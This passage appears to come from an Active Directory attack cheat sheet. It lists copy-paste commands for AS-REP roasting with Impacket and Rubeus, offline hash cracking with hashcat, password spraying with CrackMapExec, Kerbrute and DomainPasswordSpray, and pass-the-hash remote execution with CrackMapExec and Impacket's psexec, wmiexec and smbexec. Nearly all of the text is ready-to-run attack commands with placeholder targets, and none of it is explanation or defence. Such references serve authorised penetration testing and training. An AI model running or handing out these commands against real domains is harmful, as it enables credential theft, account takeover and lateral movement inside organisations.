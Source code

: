 ### 2. ASREPRoasting

#### Linux:

```bash
# Impacket
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
GetNPUsers.py -dc-ip DC_IP domain.com/username:password -request

# Crack with hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### Windows:

```powershell
# Rubeus
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt
.\Rubeus.exe asreproast /user:username /outfile:asrep_hashes.txt
```

### 3. Password Spraying

#### Linux:

```bash
# CrackMapExec
crackmapexec smb DC_IP -u users.txt -p passwords.txt
crackmapexec smb DC_IP -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute
kerbrute passwordspray -d domain.com users.txt 'Password123!'
```

#### Windows:

```powershell
# DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Password123!
Invoke-DomainPasswordSpray -UserList users.txt -Password Password123!
```

---

## 🎭 Pass Attacks

### 1. Pass-the-Hash

#### Linux:

```bash
# CrackMapExec
crackmapexec smb TARGET_IP -u username -H NTLM_HASH
crackmapexec smb TARGET_IP -u username -H NTLM_HASH -x "whoami"

# Impacket
psexec.py -hashes :NTLM_HASH username@TARGET_IP
wmiexec.py -hashes :NTLM_HASH username@TARGET_IP
smbexec.py -hashes :NTLM_HASH username@TARGET_IP
```

